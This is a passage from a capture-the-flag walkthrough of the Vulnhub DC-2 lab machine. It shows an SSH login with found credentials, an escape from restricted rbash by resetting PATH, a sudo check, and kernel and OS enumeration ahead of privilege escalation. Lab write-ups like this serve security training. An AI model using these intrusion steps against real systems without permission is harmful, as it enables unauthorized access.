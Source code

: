 
## Initial access
With those new credentials we should try to logon to the SSH service.
```bash
┌──(emvee㉿kali)-[~/Documents/Vulnhub/DC-2]
└─$ ssh tom@$ip -p 7744             
The authenticity of host '[10.0.2.31]:7744 ([10.0.2.31]:7744)' can't be established.
ED25519 key fingerprint is SHA256:JEugxeXYqsY0dfaV/hdSQN31Pp0vLi5iGFvQb8cB1YA.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[10.0.2.31]:7744' (ED25519) to the list of known hosts.
tom@10.0.2.31's password: 

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
tom@DC-2:~$ 

```
Once we have been connected succesfully we should check who we are and on what system we are working.
```bash
tom@DC-2:~$ whoami;id;hostname
-rbash: whoami: command not found
-rbash: id: command not found
-rbash: hostname: command not found
```
It looks like we are restricted by rbash.
We can try to export the PATH variable just like we have in Kali.

```bash
tom@DC-2:~$ export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/tmp
```
Now we have to try the commands again to see who we are.
```bash
tom@DC-2:~$ whoami;id;hostname
tom
uid=1001(tom) gid=1001(tom) groups=1001(tom)
DC-2
tom@DC-2:~$ 

```
We are tom on DC-2 and with this user we should try to gain more privileges. Let's see if this user is allowed to run something with the `sudo` command.
```bash
tom@DC-2:~$ sudo -l
[sudo] password for tom: 
Sorry, user tom may not run sudo on DC-2.
```
Tom is not allowed to run anything as sudoer. We should gather more information about our victim machine. First we should gather as much as possible about the Linux operating system, architectur and the kernal.
```bash
tom@DC-2:~$ uname -a
Linux DC-2 3.16.0-4-586 #1 Debian 3.16.51-3 (2017-12-13) i686 GNU/Linux
tom@DC-2:~$ uname -mrs
Linux 3.16.0-4-586 i686
tom@DC-2:~$ cat /proc/version
Linux version 3.16.0-4-586 (debian-kernel@lists.debian.org) (gcc version 4.8.4 (Debian 4.8.4-1) ) #1 Debian 3.16.51-3 (2017-12-13)
tom@DC-2:~$ cat /etc/issue
Debian GNU/Linux 8 \n \l
```